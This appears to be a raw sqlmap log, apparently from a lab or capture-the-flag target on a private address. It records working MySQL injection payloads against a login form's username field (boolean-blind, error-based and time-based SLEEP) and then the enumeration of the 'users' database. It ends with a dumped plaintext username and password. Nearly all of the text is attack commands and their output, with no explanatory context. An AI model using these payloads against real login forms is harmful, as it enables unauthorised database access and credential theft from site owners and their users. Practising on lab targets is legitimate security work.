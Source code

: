 ```
[02:29:07] [INFO] using '/home/aaron/.local/share/sqlmap/output/results-01092023_0229am.csv' as the CSV results file in multiple targets mode
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=FeRX' RLIKE (SELECT (CASE WHEN (4950=4950) THEN 0x46655258 ELSE 0x28 END))-- uWVW&password=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=FeRX' AND GTID_SUBSET(CONCAT(0x7162787071,(SELECT (ELT(9556=9556,1))),0x7170717871),9556)-- MVfY&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=FeRX' AND (SELECT 3396 FROM (SELECT(SLEEP(5)))qyVz)-- BdMJ&password=
---
do you want to exploit this SQL injection? [Y/n] y
[02:29:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[02:29:11] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[02:29:11] [INFO] fetching current database
[02:29:11] [INFO] resumed: 'users'
[02:29:11] [INFO] fetching tables for database: 'users'
[02:29:11] [INFO] resumed: 'users'
[02:29:11] [INFO] fetching columns for table 'users' in database 'users'
[02:29:11] [INFO] resumed: 'username'
[02:29:11] [INFO] resumed: 'varchar(100)'
[02:29:11] [INFO] resumed: 'password'
[02:29:11] [INFO] resumed: 'varchar(100)'
[02:29:11] [INFO] fetching entries for table 'users' in database 'users'
[02:29:11] [INFO] resumed: 'secretpass'
[02:29:11] [INFO] resumed: 'pingudad'
Database: users
Table: users
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

[02:29:11] [INFO] table 'users.users' dumped to CSV file '/home/aaron/.local/share/sqlmap/output/10.10.57.175/dump/users/users.csv'
[02:29:11] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/aaron/.local/share/sqlmap/outp

[*] ending @ 02:29:11 /2023-01-09/

```
